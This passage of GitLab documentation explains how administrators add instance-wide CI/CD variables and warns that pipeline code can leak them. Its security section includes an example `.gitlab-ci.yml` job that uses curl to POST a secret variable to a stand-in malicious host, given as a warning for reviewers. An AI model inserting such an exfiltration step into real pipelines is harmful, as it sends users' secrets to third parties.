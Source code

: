 ### For an instance

{{< details >}}

- Tier: Free, Premium, Ultimate
- Offering: GitLab Self-Managed, GitLab Dedicated

{{< /details >}}

You can make a CI/CD variable available to all projects and groups in a GitLab instance.

Prerequisites:

- You must have administrator access to the instance.

To add an instance variable:

1. On the left sidebar, at the bottom, select **Admin**.
1. Select **Settings > CI/CD**.
1. Expand **Variables**.
1. Select **Add variable** and fill in the details:
   - **Key**: Must be one line, with no spaces, using only letters, numbers, or `_`.
   - **Value**: The value is limited to 10,000 characters, but also bounded by any limits in the
     runner's operating system.
   - **Type**: `Variable` (default) or [`File`](#use-file-type-cicd-variables).
   - **Protect variable** Optional. If selected, the variable is only available in pipelines
     that run on [protected branches](../../user/project/repository/branches/protected.md)
     or [protected tags](../../user/project/protected_tags.md).
   - **Visibility**: Select **Visible** (default), [**Masked**](#mask-a-cicd-variable),
     or [**Masked and hidden**](#hide-a-cicd-variable) (only available for new variables).

## CI/CD variable security

Code pushed to the `.gitlab-ci.yml` file could compromise your variables. Variables could
be accidentally exposed in a job log, or maliciously sent to a third party server.

Review all merge requests that introduce changes to the `.gitlab-ci.yml` file before you:

- [Run a pipeline in the parent project for a merge request submitted from a forked project](../pipelines/merge_request_pipelines.md#run-pipelines-in-the-parent-project).
- Merge the changes.

Review the `.gitlab-ci.yml` file of imported projects before you add files or run pipelines against them.

The following example shows malicious code in a `.gitlab-ci.yml` file:

```yaml
accidental-leak-job:
  script:                                         # Password exposed accidentally
    - echo "This script logs into the DB with $USER $PASSWORD"
    - db-login $USER $PASSWORD

malicious-job:
  script:                                         # Secret exposed maliciously
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```
